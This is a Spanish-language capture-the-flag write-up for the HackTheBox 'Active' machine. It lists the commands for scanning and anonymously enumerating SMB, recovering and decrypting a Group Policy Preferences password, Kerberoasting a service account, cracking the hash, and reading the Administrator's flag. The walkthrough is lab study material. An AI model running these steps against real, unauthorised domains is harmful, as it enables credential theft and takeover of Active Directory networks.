



# Máquina "Active" de HackTheBox

## Características

- Windows
- Kerberoasting  
- Active Directory
- Dificultad: Easy
- Internal
- Domain Reconnaissance
- SMB
- Penetration Tester Level 1
- Default Credentials
- CVE-2014-1812
- Kerberos
- Public Vulnerabilities
- Anonymous/Guest Access
- User Enumeration  
- Weak Permissions
- Authentication
- CVE Exploitation  
- Password Cracking

## Util para

- OSCP
- OSEP  
- Active Directory

## Reconocimiento

**IP objetivo:** `10.10.10.100`

### Escaneo inicial

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPort
```

### Escaneo detallado

```bash
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49169 10.10.10.100 -oN targeted
```

### Identificación del dominio

```bash
crackmapexec smb 10.10.10.100
```



## Enumeración SMB

### Listar recursos

```bash
smbclient -L 10.10.10.100 -N
```

### Verificación de permisos

```bash
smbmap -H 10.10.10.100
```

### Exploración del directorio

```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/
```

**Salida:**
```
dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
dr--r--r--                0 Sat Jul 21 06:37:44 2018    DfsrPrivate
dr--r--r--                0 Sat Jul 21 06:37:44 2018    Policies  
dr--r--r--                0 Sat Jul 21 06:37:44 2018    scripts
```

### Descubrimiento de credenciales

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{GUID}/MACHINE/Preferences/Groups/groups.xml
```



### Desencriptación

```bash
gpp-decrypt 'clave_encriptada'
```

### Validación de credenciales

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'clave_desencriptada'
```

## Explotación

### Enumeración de grupos

```bash
rpcclient -U "SVC_TGS%clave" 10.10.10.100 -c 'enumdomgroups'
```



### Ataque Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:clave -request
```

### Crackeo de hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## Post-explotación

### Obtención de flags

```bash
smbmap -H 10.10.10.100 -u 'Administrator' -p 'clave_admin' --download Users/Administrator/Desktop/root.txt
```

## Notas

Algunos procedimientos pueden variar según la configuración del sistema. Si encuentras errores o tienes sugerencias, contacta a: lerioxirit@proton.me